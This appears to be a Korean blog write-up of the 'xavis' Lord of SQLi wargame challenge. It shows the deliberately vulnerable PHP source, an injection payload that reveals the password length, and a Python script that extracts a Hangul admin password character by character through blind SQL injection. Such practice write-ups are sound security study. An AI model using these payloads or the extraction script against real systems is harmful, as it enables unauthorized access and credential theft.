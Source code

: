 ```yaml
---
layout: post
title: ! "[LOS] xavis"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - LOS
  - write-up
---
```



### xavis 한글 조합 셋으로 풀기

`query : select id from prob_xavis where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`?pw=1' or length(pw)='1`와 같은 쿼리가 필터링 없이 잘 적용된다
이 쿼리로 알아낸 패스워드의 길이는 12이다.

알파벳,숫자 조합,substr로 패스워드를 한 글자씩 알아내려고 하면 Hello guest만 뜨고 admin의 경우는 알 수가 없다.

그래서 알아봤더니 패스워드가 한글이어서 그렇다!!
다른 분들은 Hex 값으로 알아낸 후 10진수로 바꿔주고 그 값을 한글로 바꿔주는 방식을 사용하셨는데,
답이 한글이라는 것을 알고있다는 전제 하에 한글 조합셋으로 문제를 푸는 코드를 짜봤다.
[한글 조합 파일](https://github.com/MitNy/Python-Web-Hacking/blob/master/LOS/hangul.txt)도 직접 만들었다.. 


```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/xavis.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""
f = open("hangul.txt",mode="rt", encoding="utf-8")
line = f.read()
n_split = line.split("\n")
hangul = n_split[0].split(" ")
for i in range(0,len(hangul)):
    alpha += hangul[i]

for i in range(1,20):
    parameter = "?pw=1%27%20or%20length(pw)=%27"+str(i)+"%23"
    #parameter = "?pw=1' or length(pw)='"+str(i)+"%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break

for j in range(1,length):
    for i in alpha:
        #parameter = "?pw=1' or ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        parameter = "?pw=1%27%20or%20substr(pw,"+str(j)+",1)=%27"+str(i)
        print(parameter)
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(j) + " -> " + str(i))
            result += str(i)
            break

    if j == 1 and result == "":
        print("password not found")
        exit(0)

    if j == length-1:
        result = result.lower()
        print("\npassword is "+result)
        print("\n")
```

진짜진짜 오래걸리니 Hex 값을 이용해 문제를 푸는 방식을 추천 드립니다

![]({{ site.baseurl }}/assets/posts/los/xavis_result.png)

![]({{ site.baseurl }}/assets/posts/los/xavis_clear.png)
